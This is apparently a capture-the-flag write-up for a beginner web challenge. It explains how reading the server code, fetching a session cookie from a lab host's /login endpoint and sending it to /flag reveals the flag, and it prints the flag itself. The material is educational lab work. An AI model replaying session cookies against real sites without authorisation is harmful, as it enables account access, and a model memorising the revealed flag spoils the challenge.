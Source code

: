 ## WEB-0: Session Analysis
**Description:**
This challenge involved analyzing a web application's session handling mechanism to retrieve a flag protected by cookie-based authentication.
<details> <summary><b>Reveal Flag</b></summary> flag{5b3110c1dd} </details></br>

**Solution Summary:**
- Identified that the flag endpoint required a valid session cookie.
- Retrieved a session token from the `/login` endpoint.
- Used the token to access the protected `/flag` route.

**Exploitation Steps:**
1. Explore the `/ctf` directory and review the source code:
   ```bash
   ls /ctf
   cat client.py
   cat server.py
    ```
2. Investigating the behaviour of the `server.py` script I identified that the `/flag` route checks the browser for a session cookie before serving the flag and further on the `/login` route looked to provide the needed cookie.
    ![screenshot](../images/WEB-0.jpg)

3. Using `wget` sent a request to /login to obtain a valid session:
    ```bash
    wget -S http://192.168.1.2/login
    ```
    Output included:
    ```plaintext
    Set-Cookie: session=NmUnt65k75dZxATkaycYpl88Y4hGShBS
    ```
4. Sent a follow-up request to `/flag` with the session cookie and upon viewing the downloaded flag file we have another flag.
    ```bash
    wget -S --header "Cookie: session=NmUnt65k75dZxATkaycYpl88Y4hGShBS" http://192.168.1.2/flag
    ```
    ![screenshot](../images/WEB-0a.jpg)

